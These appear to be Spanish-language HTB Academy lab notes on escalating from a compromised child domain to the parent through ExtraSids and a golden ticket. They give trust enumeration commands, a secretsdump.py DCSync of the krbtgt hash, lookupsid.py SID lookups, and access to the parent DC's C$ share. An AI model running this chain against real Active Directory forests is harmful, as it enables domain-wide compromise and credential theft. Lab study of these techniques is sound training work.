 ![image](https://github.com/gecr07/HTB-Academy/assets/63270579/d698af2e-84e9-4910-ad8d-961e88dfa387)

```
Get-ADTrust
Get-DomainTrust
Get-DomainTrustMapping
# Powerview
What is the SID of the Enterprise Admins group in the root domain?
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid


```
Para hacer este ataque se tiene que tener comprometido el child domain y la cuenta (The KRBTGT hash for the child domain). ( si quieres ver mas ve a la pagina es muy extenso)

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/5ed05d30-d6cd-47fc-ad23-c7ee99d582b5)


Ya que se ingreso el golden ticket en la memoria

```
ls \\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\c$\ExtraSids
ls \\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\c$\ExtraSids\flag.txt
```

### En linux

Para obtener la info pero desde linux Primero DCSYNC

```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

Para encontrar el SID del child domain

```
 lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```
Aqui recuerda que se hace contra el DC ( nose porque pero desde que empece a estudiar asi es)

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/a6c4582f-9283-49c7-a902-2408b7e80a9e)

El siguiente comando lo usa para encontrar el SID del grupo Enterprise Admins ( ve como es contra el DC del dominio parent)

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

Algo super interesante si nos damos cuenta en la captura el SID del grupo Enterprise Admins se le agrega solamente el 519 al final y dependiendo de que grupo seria lo que se le agregaria.

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/d5396e50-4840-461f-b26a-8b0469466fcc)


